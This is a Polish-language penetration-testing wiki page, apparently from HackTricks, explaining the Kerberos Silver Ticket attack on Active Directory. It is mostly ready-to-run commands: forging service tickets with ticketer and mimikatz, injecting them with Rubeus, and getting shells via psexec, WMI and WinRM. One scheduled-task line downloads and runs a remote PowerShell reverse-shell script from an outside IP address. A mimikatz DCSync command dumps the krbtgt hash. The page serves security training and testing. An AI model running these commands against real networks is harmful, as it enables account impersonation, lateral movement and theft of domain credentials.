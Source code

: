 # Silver Ticket

{{#include ../../banners/hacktricks-training.md}}



## Silver ticket

Atak **Silver Ticket** polega na wykorzystaniu biletów serwisowych w środowiskach Active Directory (AD). Metoda ta opiera się na **zdobyciu hasha NTLM konta serwisowego**, takiego jak konto komputera, w celu sfałszowania biletu Ticket Granting Service (TGS). Dzięki temu sfałszowanemu biletowi, atakujący może uzyskać dostęp do określonych usług w sieci, **podszywając się pod dowolnego użytkownika**, zazwyczaj dążąc do uzyskania uprawnień administracyjnych. Podkreśla się, że użycie kluczy AES do fałszowania biletów jest bardziej bezpieczne i mniej wykrywalne.

Do tworzenia biletów stosuje się różne narzędzia w zależności od systemu operacyjnego:

### On Linux
```bash
python ticketer.py -nthash <HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <SERVICE_PRINCIPAL_NAME> <USER>
export KRB5CCNAME=/root/impacket-examples/<TICKET_NAME>.ccache
python psexec.py <DOMAIN>/<USER>@<TARGET> -k -no-pass
```
### Na Windows
```bash
# Create the ticket
mimikatz.exe "kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<HASH> /user:<USER> /service:<SERVICE> /target:<TARGET>"

# Inject the ticket
mimikatz.exe "kerberos::ptt <TICKET_FILE>"
.\Rubeus.exe ptt /ticket:<TICKET_FILE>

# Obtain a shell
.\PsExec.exe -accepteula \\<TARGET> cmd
```
Usługa CIFS jest wyróżniana jako powszechny cel do uzyskania dostępu do systemu plików ofiary, ale inne usługi, takie jak HOST i RPCSS, również mogą być wykorzystywane do zadań i zapytań WMI.

## Dostępne usługi

| Typ usługi                                 | Usługa Silver Tickets                                                      |
| ------------------------------------------ | -------------------------------------------------------------------------- |
| WMI                                        | <p>HOST</p><p>RPCSS</p>                                                   |
| PowerShell Remoting                        | <p>HOST</p><p>HTTP</p><p>W zależności od systemu operacyjnego także:</p><p>WSMAN</p><p>RPCSS</p> |
| WinRM                                      | <p>HOST</p><p>HTTP</p><p>W niektórych przypadkach możesz po prostu poprosić o: WINRM</p> |
| Zaplanowane zadania                        | HOST                                                                      |
| Udostępnianie plików w systemie Windows, także psexec | CIFS                                                                      |
| Operacje LDAP, w tym DCSync               | LDAP                                                                      |
| Narzędzia do zdalnej administracji serwerów Windows | <p>RPCSS</p><p>LDAP</p><p>CIFS</p>                                        |
| Złote bilety                               | krbtgt                                                                    |

Używając **Rubeus**, możesz **poprosić o wszystkie** te bilety, używając parametru:

- `/altservice:host,RPCSS,http,wsman,cifs,ldap,krbtgt,winrm`

### Identyfikatory zdarzeń biletów Silver

- 4624: Logowanie konta
- 4634: Wylogowanie konta
- 4672: Logowanie administratora

## Wykorzystywanie biletów usługowych

W poniższych przykładach wyobraźmy sobie, że bilet został odzyskany, podszywając się pod konto administratora.

### CIFS

Dzięki temu biletowi będziesz mógł uzyskać dostęp do folderów `C$` i `ADMIN$` za pomocą **SMB** (jeśli są wystawione) i skopiować pliki do części zdalnego systemu plików, po prostu robiąc coś takiego:
```bash
dir \\vulnerable.computer\C$
dir \\vulnerable.computer\ADMIN$
copy afile.txt \\vulnerable.computer\C$\Windows\Temp
```
Będziesz również w stanie uzyskać powłokę wewnątrz hosta lub wykonać dowolne polecenia za pomocą **psexec**:

{{#ref}}
../lateral-movement/psexec-and-winexec.md
{{#endref}}

### HOST

Dzięki temu uprawnieniu możesz generować zaplanowane zadania na zdalnych komputerach i wykonywać dowolne polecenia:
```bash
#Check you have permissions to use schtasks over a remote server
schtasks /S some.vuln.pc
#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S some.vuln.pc /SC weekly /RU "NT Authority\System" /TN "SomeTaskName" /TR "C:\path\to\executable.exe"
schtasks /create /S some.vuln.pc /SC Weekly /RU "NT Authority\SYSTEM" /TN "SomeTaskName" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"
#Check it was successfully created
schtasks /query /S some.vuln.pc
#Run created schtask now
schtasks /Run /S mcorp-dc.moneycorp.local /TN "SomeTaskName"
```
### HOST + RPCSS

Dzięki tym biletom możesz **wykonać WMI w systemie ofiary**:
```bash
#Check you have enough privileges
Invoke-WmiMethod -class win32_operatingsystem -ComputerName remote.computer.local
#Execute code
Invoke-WmiMethod win32_process -ComputerName $Computer -name create -argumentlist "$RunCommand"

#You can also use wmic
wmic remote.computer.local list full /format:list
```
Znajdź **więcej informacji o wmiexec** na następującej stronie:

{{#ref}}
../lateral-movement/wmiexec.md
{{#endref}}

### HOST + WSMAN (WINRM)

Dzięki dostępowi winrm do komputera możesz **uzyskać do niego dostęp** i nawet uruchomić PowerShell:
```bash
New-PSSession -Name PSC -ComputerName the.computer.name; Enter-PSSession PSC
```
Sprawdź następującą stronę, aby dowiedzieć się **więcej sposobów na połączenie z zdalnym hostem za pomocą winrm**:

{{#ref}}
../lateral-movement/winrm.md
{{#endref}}

> [!WARNING]
> Zauważ, że **winrm musi być aktywne i nasłuchujące** na zdalnym komputerze, aby uzyskać do niego dostęp.

### LDAP

Dzięki temu uprawnieniu możesz zrzucić bazę danych DC za pomocą **DCSync**:
```
mimikatz(commandline) # lsadump::dcsync /dc:pcdc.domain.local /domain:domain.local /user:krbtgt
```
**Dowiedz się więcej o DCSync** na następującej stronie:

## Odniesienia

- [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets)
- [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)

{{#ref}}
dcsync.md
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}
